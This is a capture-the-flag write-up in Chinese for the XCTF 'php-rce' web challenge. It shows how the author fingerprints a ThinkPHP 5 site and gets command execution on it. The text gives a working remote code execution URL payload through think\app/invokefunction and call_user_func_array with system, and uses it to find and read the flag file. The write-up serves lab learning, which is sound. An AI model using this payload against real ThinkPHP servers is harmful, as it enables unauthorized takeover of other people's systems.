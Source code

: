 # 攻防世界 web php-rce

![image-20211111232407058](C:\Users\lenovo\AppData\Roaming\Typora\typora-user-images\image-20211111232407058.png)

打开环境看到如下界面

![image-20211111232427486](C:\Users\lenovo\AppData\Roaming\Typora\typora-user-images\image-20211111232427486.png)

可以看出这个页面使用了thinkphp v5框架，不管有什么先看看框架本身有没有可以利用的漏洞

![image-20211111232548373](C:\Users\lenovo\AppData\Roaming\Typora\typora-user-images\image-20211111232548373.png)

很好 随手一搜就是个漏洞，涉及到远程代码执行

点开看看

![image-20211111232638806](C:\Users\lenovo\AppData\Roaming\Typora\typora-user-images\image-20211111232638806.png)

受影响的版本如上所示

让它报一下错看看能不能看见具体版本

payload1

`/index.php?s=1`

![image-20211111232809767](C:\Users\lenovo\AppData\Roaming\Typora\typora-user-images\image-20211111232809767.png)

那它确实是一个受影响的版本

看一下有没有poc

![image-20211111232913384](C:\Users\lenovo\AppData\Roaming\Typora\typora-user-images\image-20211111232913384.png)

那它确实是有现成的poc

提炼一下信息，poc格式如下：

poc:

`index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=你要执行的命令`

既然是要看flag，那就找一下flag 

payload2：

`index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=find / -name 'flag'`

![image-20211111233351482](C:\Users\lenovo\AppData\Roaming\Typora\typora-user-images\image-20211111233351482.png)

好的 cat一下结束

payload3:

`index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cat /flag`

![image-20211111233509715](C:\Users\lenovo\AppData\Roaming\Typora\typora-user-images\image-20211111233509715.png)

漏洞利用详解：[Thinkphp5-x远程代码执行 漏洞分析 - FreeBuf网络安全行业门户](https://www.freebuf.com/column/211319.html)



一些其它解：[【XCTF 攻防世界】WEB 高手进阶区 Web_php_include_Kal1的博客-CSDN博客](https://blog.csdn.net/weixin_45844670/article/details/108180309)



